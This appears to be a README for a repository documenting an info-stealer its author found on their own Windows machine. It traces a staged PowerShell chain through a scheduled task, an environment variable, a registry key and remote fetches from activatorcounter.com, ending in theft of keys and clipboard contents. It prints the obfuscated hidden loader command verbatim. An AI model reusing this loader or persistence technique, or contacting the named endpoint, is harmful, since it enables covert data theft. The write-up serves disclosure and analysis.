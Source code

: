 # found-infosteal
This is a repository of files associated with an info-stealer I found in my own system. It had a scheduled task, that would every 30s attempt to send stolen data to an endpoint on the domain `activatorcounter.com`.

The order of execution was as such: 
1. scheduler
2. invoke-from-env.ps1
3. invoke-from-registry.ps1
4. invoke-from-remote.ps1
5. invoke-from-remote-2.ps1
6. info-steal.ps1

## 1. Invoke with ENV
I've noticed some weird usage of CPU and network communications on my machine. After a short investigation, and triangulating the process responsible using `Wireshark`, `procmon` and `procexp` i noticed a powershell process tied to the scheduler. The command for the powershell process read:
```powershell
"Powershell.exe" -WindowStyle Hidden -Command "$envVar = [Environment]::GetEnvironmentVariable('9964a802'); $charArray = $envVar.ToCharArray(); [Array]::Reverse($charArray); $rev = -join $charArray; $ExecutionContext.InvokeCommand.InvokeScript($rev)"
```

The value of `-Command` is the contents of the file `invoke-from-env.ps1`.

This command retrieves the contents of an environment variable `9964a802` (which is a weird name for a variable like that). And executes the script contained within. The contents of that script are located within `invoke-from-registry.ps1`;

## 2. Invoke from Registry
The command from the environment variable finds and executes the script contained within a registry key under `HKLM:\SOFTWARE\Microsoft\ALG` named `9964a802`. The contents of that registry key are within the file `invoke-from-remote.ps1`.

## 3. Invoke from Remote
This is a more involved script which checks a set of domains, obfuscated by splicing (within these domains is the domain `activatorcounter.com`), for updates using dns. On update, it retrieves another script from the domain and executes it. The contents of that script are located within `invoke-from-remote-2.ps1`.

## 4. Invoke from Remote 2
This script retrieves the final info-stealer script in an encrypted form from `https://activatorcounter.com/connect` using a Rest method. Then it decrypts it using an embedded DFC key. Finally, the script is executed. The contents of that script are within `info-steal.ps1`

## 5. Info-Steal
This script is the final stage of execution. It scans for cryptographic keys and monitors the clipboard. Huge privacy risk.
